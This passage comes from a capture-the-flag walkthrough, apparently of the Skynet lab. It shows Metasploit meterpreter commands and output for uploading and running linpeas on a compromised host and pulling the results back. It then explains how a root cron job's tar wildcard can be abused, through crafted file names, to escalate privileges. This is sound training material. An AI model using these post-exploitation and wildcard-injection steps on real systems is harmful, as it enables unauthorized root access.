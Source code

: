 Restart the session and upload the script.

```bash
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload linpeas.sh
[*] Uploading  : /root/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 805.42 KiB (0.0%): /root/linpeas.sh -> linpeas.sh
[*] Completed  : /root/linpeas.sh -> linpeas.sh
```

On the target drop into a system shell and launch the script saving the output to file.

```bash
meterpreter > shell
./linpeas.sh -a > /dev/shm/linpeas.txt
```

Go back to the meterpreter and download the results on your machine.

```bash
meterpreter > download /dev/shm/linpeas.txt
[*] Downloading: /dev/shm/linpeas.txt -> /root/linpeas.txt
[*] Downloaded 168.18 KiB of 168.18 KiB (100.0%): /dev/shm/linpeas.txt -> /root/linpeas.txt
[*] Completed  : /dev/shm/linpeas.txt -> /root/linpeas.txt
```

Take a look to the results.

```bash
msf6 exploit(multi/handler) > less -r linpeas.txt
```

After a while you might notice an interesting cron line:  
`_/1 _ \* \* \* root /home/milesdyson/backups/backup.sh`  
The backup.sh script is being run every minute by the root user: if you could find a way to modify the script or replace it with a malicious one you could get root access!  
Here comes the catch: the script is owned by root and you can neither change it nor replace it.

```bash
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Oct 19 08:08 backup.tgz
```

All hope is not lost though, let's look at the script.

```bash
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

You can still get away with it by exploiting the `tar` command, without any change to the script.  
This is done by leveraging the wildcard of the tar command: basically when the command is run the '\*' wildcard is expanded in the names of all the files in the current directory.  
You can create some malicious files to inject some additional options in the tar command.  
In particular you will add additional parameters to the command that will cause the execution of a malicious script.  
For more insight into this vulnerability visit <https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa>
